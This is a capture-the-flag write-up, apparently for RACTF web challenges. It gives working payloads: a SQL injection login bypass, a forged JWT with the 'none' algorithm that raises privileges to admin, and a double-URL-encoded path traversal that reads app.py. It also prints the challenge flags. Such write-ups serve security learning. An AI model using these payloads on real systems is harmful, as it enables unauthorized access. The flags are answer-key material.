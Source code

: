 # Quarantine

![](img/challenge1.png)

There is a login panel on the website and also a sign up page, but I can't access that as it is currently closed.

![](img/sign_in.png)

So I decided to try a few simple SQL-Injections and after got a new error message:
```
Username: admin
Password: ' OR 1=1;--
```
![](img/error.png)

That means the SQL Query returns multiple users and I have to limit it to just one.
```
Username: admin
Password: ' OR 1=1 LIMIT 1;--
```

![](img/flag.png)

# Getting Admin

![](img/challenge2.png)

For this challenge i looked at the auth token and base64 decoded the parts:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9: {"typ":"JWT","alg":"HS256"}

eyJ1c2VyIjogIkhhcnJ5IiwgInByaXZpbGVnZSI6IDF9: {"user": "Harry", "privilege": 1}

A7OHDo-b3PB5XONTRuTYq6jm2Ab8iaT353oc-VPPNMU: Random bytecode
```
After researching JWT Tokens I found an exploit, where you can set the algorithm to `none` and freely manipulate the token afterwards, as then there is no signature verification.
```
{"typ":"JWT","alg":"none"}: eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=
{"user": "Harry", "privilege": 1}: eyJ1c2VyIjogIkhhcnJ5IiwgInByaXZpbGVnZSI6IDF9

Token:
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VyIjogIkhhcnJ5IiwgInByaXZpbGVnZSI6IDF9.A7OHDo-b3PB5XONTRuTYq6jm2Ab8iaT353oc-VPPNMU
```
As I was able to authenticate with this token the exploit must have worked. 
So now I just have to find the correct "user" and "privilege" values:
```
{"user": "Admin", "privilege": 2}: eyJ1c2VyIjogIkFkbWluIiwgInByaXZpbGVnZSI6IDJ9

Token:
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VyIjogIkFkbWluIiwgInByaXZpbGVnZSI6IDJ9.A7OHDo-b3PB5XONTRuTYq6jm2Ab8iaT353oc-VPPNMU
```
With this I was then able to access `/admin` and get the flag.

`ractf{j4va5cr1pt_w3b_t0ken}`

# Hidden information

![](img/challenge3.png)

I looked at `/robots.txt` and found a hint to another URL
```
User-Agent: *
Disallow: /admin-stash
```
Then I checked `/admin-stash` and got the flag.

`ractf{1m_n0t_4_r0b0T}`

# Finding server information

![](img/challenge4.png)

As you have to find the source of the app I propably need a LFI and the most obvious target is `/watch/[Video]`

![](img/watch.png)

When I enter an invalid video name in the URL like `/watch/test` I get an `Internal Server Error`. 
This means there is some internal server logic handling it, which allows for LFI, as otherwise I would get a `Not Found` Exception.

As I can't just go to `/watch/../app.py` I needed to encode it. So after some experimenting I url-encoded the `/` twice and read out the flag in the source of the website.
```html
/watch/..%25252Fapp.py
<video controls src="data:video/mp4;base64,ractf{qu3ry5tr1ng_m4n1pul4ti0n}"></video>
```

